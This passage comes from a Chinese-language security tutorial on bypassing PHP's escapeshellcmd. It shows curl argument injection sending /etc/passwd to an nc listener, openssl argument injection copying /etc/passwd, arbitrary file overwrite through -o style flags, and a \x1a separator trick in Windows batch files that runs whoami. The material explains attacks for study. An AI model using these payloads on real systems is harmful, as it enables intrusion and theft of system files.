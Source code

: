 服务端开个nc接收即可
```shell
root@kuroneko:/tmp/temp# nc -lvvp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from [127.0.0.1] port 6666 [tcp/*] accepted (family 2, sport 37160)
POST / HTTP/1.1
Host: 127.0.0.1:6666
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 2069
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------b831fd9594c6de88

--------------------------b831fd9594c6de88
Content-Disposition: form-data; name="password"; filename="passwd"
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
......

```



### openssl

读取`/etc/passwd`文件并输出到`/tmp/xxx`

```php
$url = 'enc -in /etc/passwd -out /tmp/xxx';
system(escapeshellcmd('openssl '.$url));
```



还有很多命令都有`-o`之类的参数，实在利用不了的话可以注入这种参数，可以作为任意文件覆盖。



### 其他

抛开参数注入说回命令注入，还有一些老版本PHP才有的漏洞，比如%00截断、%c0截断等，但是大部分在最新的PHP中已经利用不了了，这里有两个点还可以利用的。

在Windows的bat文件中，命令的分隔符和命令行有细微的差异，有研究员对此进行过fuzz，发现`\x1a`在bat文件中是可以作为分隔符的（出处在[这里](https://seclists.org/fulldisclosure/2016/Nov/67)），而在cmd中却不行，`escapeshellcmd`函数也是不会过滤`\x1a`的，所以执行以下代码：

```php
$dir = "ipconfig \x1a whoami";
file_put_contents('out.bat', escapeshellcmd('whatever '.$dir));
system('out.bat');
```
得到的结果为：
```bash
D:\tools\xampp\htdocs>whatever ipconfig D:\tools\xampp\htdocs>whoami 1-ac0049\Administrator
```
